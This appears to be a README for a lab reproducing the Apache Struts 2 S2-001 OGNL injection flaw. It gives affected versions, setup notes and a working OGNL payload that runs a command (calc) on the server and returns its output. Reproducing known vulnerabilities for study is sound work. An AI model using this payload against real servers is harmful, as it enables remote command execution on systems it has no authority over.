

# S2-001 Demo

## Summary

Impact of vulnerability: Remote Code Execution

Affected Software: `WebWork 2.1` (with `altSyntax` enabled), `WebWork 2.2.0` - `WebWork 2.2.5`, Struts 2.0.0 - Struts 2.0.8

Problem: The `'altSyntax'` feature of `WebWork 2.1`+ and Struts 2 allows `OGNL` expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an `OGNL` expression that will then be executed by the server if the form validation has failed.

## Environment

Struts2 Version: `struts-2.0.1-all`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

## POC

## Payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)

